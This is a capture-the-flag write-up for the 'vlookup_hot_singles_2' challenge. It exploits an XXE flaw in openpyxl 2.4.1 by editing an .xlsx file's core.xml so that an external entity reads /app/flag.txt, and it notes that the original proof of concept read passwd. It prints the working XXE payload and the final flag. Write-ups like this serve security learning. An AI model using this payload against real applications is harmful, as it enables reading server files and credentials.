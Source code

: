 # vlookup_hot_singles_2 
Point count: 766pts

Difficulty: hard

Provided files: N/A (same as first edition of challenge)

Description: oh. it's her. well, see if you can get the flag at /app/flag.txt and then get out of there
# 

This challenge did leave me stuck for a while, as I had no idea how to create spreadsheet type vulnerabilities. I kept digging around the source code, and noticed something unusual.

The pipfile had certian libraries installed on a specific version.

```
[[source]]
url = "https://pypi.org/simple"
verify_ssl = true
name = "pypi"

[packages]
openpyxl = "==2.4.1"
lxml = "==4.9.4"
flask = "*"
pyjwt = "*"

[dev-packages]

[requires]
python_version = "3.11"
```

Huh, why is openpyxl forced to install on version 2.4.1?

Lets google and see if there are any vulnerabilities specific to that version.

And there is!

There is XML External Entity (XXE) on that library!

*openpyxl is a Python library to read/write Excel 2010 xlsx/xlsm files Openpyxl 2.4.1 resolves external entities by default, which allows remote attackers to conduct XXE attacks via a crafted .xlsx document.*

*XXE Injection is a type of attack against an application that parses XML input. XML is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. By default, many XML processors allow specification of an external entity, a URI that is dereferenced and evaluated during XML processing. When an XML document is being parsed, the parser can make a request and include the content at the specified URI inside of the XML document.*
[Source](https://security.snyk.io/vuln/SNYK-PYTHON-OPENPYXL-40459)

Okay, now that we know there is XXE in this library, this should be pretty straight forward.

During my research process, I came across a proof of concept of a security researcher conducting this. [POC](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=854442)

xlsx files are actually zip files, so we can rename the xlsx file the POC gave us to .zip and see whats inside.

Looking around, we see something in docProps/core.xml

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///app/flag.txt" >]><cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dc:creator>Ulikowski, Marcin</dc:creator><cp:lastModifiedBy>Ulikowski, Marcin</cp:lastModifiedBy><dcterms:created xsi:type="dcterms:W3CDTF">2017-01-31T09:02:33Z</dcterms:created><dcterms:modified xsi:type="dcterms:W3CDTF">2017-01-31T09:02:53Z</dcterms:modified><dc:subject>&xxe;</dc:subject></cp:coreProperties>
```
*Note: the file:///app/flag.txt was renamed to this for the purpose of getting the flag. Originally, in the POC, it wanted to read passwd.*

Thats it! So we can just modify what the POC gave us to read /app/flag.txt

Zip all the spreadsheet files back into a .zip file. Rename it to .xlsx, and upload it to the website!

The website gives us a `your_location_has_been_recorded.xlsx`

Opening this does not show anything. What took me a while was that the POC injected the XXE into the subject metadata of the spreadsheet.

It wasn't until I tried moving the file to my linux home directory while the spreadsheet was opened to notice it.

How did I notice it? Well windows tells you that you can't move files if the app is open, and I tried to, and I noticed that the flag was in the subject metadata!

![image](https://github.com/sa1181405/pbchocolate-private-writeups/assets/170969470/9f4bcef5-946c-42ed-9827-4b3fc4795a44)

There is our flag! Lesson learned, always read the payloads in proof of concepts fully!

Final flag: `jellyCTF{th1s_1snt_a_r3d_0n3_r1gh7?}`
